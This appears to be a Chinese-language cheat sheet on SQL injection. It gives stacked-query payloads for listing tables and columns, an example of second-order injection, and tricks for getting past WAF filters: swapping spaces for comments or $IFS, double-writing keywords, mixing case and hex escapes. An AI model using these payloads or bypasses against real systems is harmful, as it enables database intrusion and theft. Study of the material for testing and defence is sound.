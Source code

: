 ```
1;show tables()#
```

```
show columns from `table;--+
```

# 二次注入

有的时候在写入的时候，恶意字符被转义，正常进入数据库保存

```sql
INSERT INTO wp_users VALUES(2,'admin\'or\'1')
```

数据库保存的内容为

```
admin 'or' 1
```

当用需要SELECT这条语句的地方就会触发

```sql
SELECT * FROM wp_users WHERE username='admin'or'1';
```



# Waf绕过

## 空格过滤

可以使用`/**/`来代替空格

1. ${IFS}替换
2. $IFS$1替换
3. ${IFS替换
4. %20替换
5. <和<>重定向符替换
6. %09,%0a,%0b,%0c,%0d,%a0替换

## 将关键词替换为空

双写关键词`selselectect`

## 大小写绕过

selEct -- oR

## 十六进制绕过

select -- selec\x74
